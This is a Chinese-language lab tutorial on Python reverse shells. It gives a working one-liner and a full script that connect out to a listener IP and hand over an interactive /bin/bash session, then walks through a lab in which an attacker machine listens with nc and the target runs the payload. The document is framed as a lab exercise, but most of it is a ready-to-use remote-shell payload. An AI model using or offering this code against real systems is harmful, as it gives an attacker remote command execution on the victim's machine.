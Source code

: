 # **Python** 反弹**Shell**  

## **Python**介绍                                       [ ](af://n3)

Python由荷兰数学和计算机科学研究学会的吉多·范罗苏姆于1990年代初设计， 作为一门叫做ABC语言的替代品。 Python提供了高效的高级数据结构， 还能简单有效地面向对象编程。 Python语法和动态类型， 以及解释型语言的 本质， 使它成为多数平台上写脚本和快速开发应用的编程语言，  随着版本的不断更新和语言新功能的添加， 逐渐被 用于独立的、大型项目的开发。

## **Python**反弹**Shell**介绍                                [ ](af://n6)

### python 2

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.21.80.99",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

```
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.21.80.99", 8888))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/bash", "-i"])
```

## 实验介绍                                          [ ](af://n10)

![img](https://img.gyxnb.top/img/clip_image001-168398344834972.jpg)

 

| 机器名称 | 机器**IP**              |
| -------- | ----------------------- |
| 攻击机器 | 192.168.3.27 (Windows)  |
| 实验靶机 | 192.168.41.135 ( Linux) |

## 实验复现                                          [ ](af://n23)

### 1、攻击机器使用nc执行监听命令

```
  nc -lvvp  1111 监听  TCP  
```

![img](https://img.gyxnb.top/img/clip_image003-168398344834973.gif)

### 2、实验靶机执行连接命令

```
python -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.16
8.3.27",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![img](https://img.gyxnb.top/img/clip_image004.jpg)

### 3、查看结果

![img](https://img.gyxnb.top/img/clip_image005.jpg)